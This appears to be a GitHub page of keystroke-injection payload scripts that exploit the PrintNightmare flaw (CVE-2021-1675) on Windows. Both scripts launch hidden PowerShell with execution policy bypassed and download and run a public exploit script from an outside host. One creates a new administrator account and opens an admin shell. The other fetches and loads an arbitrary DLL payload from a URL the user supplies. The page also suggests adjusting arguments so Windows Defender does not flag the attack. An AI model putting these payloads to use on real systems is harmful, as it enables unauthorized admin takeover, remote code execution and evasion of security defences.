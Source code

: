 Reference https://github.com/calebstewart/CVE-2021-1675

You may need to supplement powershell arguments for a defined username and password for the new administrator in order to avoid being flagged by defender. Reference the GitHub above from the PowerShell script authors for documentation on the flags.

**CVE-2021-1675 - PrintNightmare LPE (PowerShell) -- Create an administrative user and spawn a command prompt as the new administrative user.**
```REM CVE-2021-1675 - PrintNightmare LPE (PowerShell) -- Create administrative user and spawn a command prompt as the new administrative user.
GUI r
DELAY 150
STRING powershell -NoP -NonI -W Hidden -Exec Bypass "IEX (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1',\"$env:temp\cve20211675.ps1\"); Import-Module \"$env:temp\cve20211675.ps1\"; Invoke-Nightmare"
ENTER
DLEAY 1000
GUI r
DELAY 150
STRING cmd
DELAY 150
ENTER
DELAY 150
STRING runas /user:adm1n cmd.exe
ENTER
DELAY 150
STRING P@ssw0rd
DELAY 150
ENTER
```

**CVE-2021-1675 - PrintNightmare LPE (PowerShell) -- Hidden Payload DLL Executor**

Replace the `ESCAPED URL TO DLL HERE` with the URL to your desired DLL payload
```
REM CVE-2021-1675 - PrintNightmare LPE (PowerShell) -- Hidden Payload DLL Executor
GUI r
DELAY 150
STRING powershell -NoP -NonI -W Hidden -Exec Bypass "IEX (New-Object System.Net.WebClient).DownloadFile('ESCAPED URL TO DLL HERE',\"$env:temp\p4yl0ad.dll\"); IEX (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1',\"$env:temp\cve20211675.ps1\"); Import-Module \"$env:temp\cve20211675.ps1\"; Invoke-Nightmare -DLL \"$env:temp\p4yl0ad.dll\""
ENTER
```